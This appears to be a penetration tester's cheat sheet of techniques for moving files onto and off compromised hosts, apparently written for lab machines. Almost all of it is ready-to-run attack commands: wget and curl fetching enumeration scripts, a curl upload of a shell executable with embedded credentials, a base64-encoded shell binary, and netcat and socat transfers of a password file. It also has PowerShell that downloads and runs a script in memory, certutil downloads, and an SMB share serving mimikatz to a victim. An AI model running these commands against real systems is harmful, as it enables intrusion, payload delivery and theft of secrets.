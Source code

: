 # Transferring Files

## wget

```bash
python3 -m http.server 8000 # on kali machine
wget http://10.10.14.1:8000/linenum.sh # on target machine
```

## cURL

```bash
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
curl -T '/home/kali/Documents/pg/Hutch/shell.exe' 'http://192.168.136.122/' -u fmcsorley:CrabSharkJellyfish192
```

## SCP

```bash
scp linenum.sh user@remotehost:/tmp/linenum.sh # with ssh user creds
```

## Base64

```bash
lojique@htb[/htb]$ base64 shell -w 0
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

## Netcat

```bash
# to receive a file
nc -nlvp 4444 > incoming.exe
# to transfer a file
nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
```

## Socat

```bash
# to transfer
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
# to receive
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

## PowerShell

```
# download a file
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
# loads file in memory and runs it
iex (iwr http://192.168.119.217/Sherlock.ps1 -UseBasicParsing)
```

## Powercat

```
# listener
sudo nc -lnvp 443 > receiving_powercat.ps1
# send a file
powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```

## Certutil

```
certutil.exe -urlcache -f http://<IP>/Sherlock.ps1 Sherlock,ps1
```

## Impacket SMB

```bash
# In directory with file
impacket-smbserver share .

# From victim
\\10.10.10.10\share\mimikatz.exe 

copy \\10.10.10.10\share\mimikatz.exe 
```
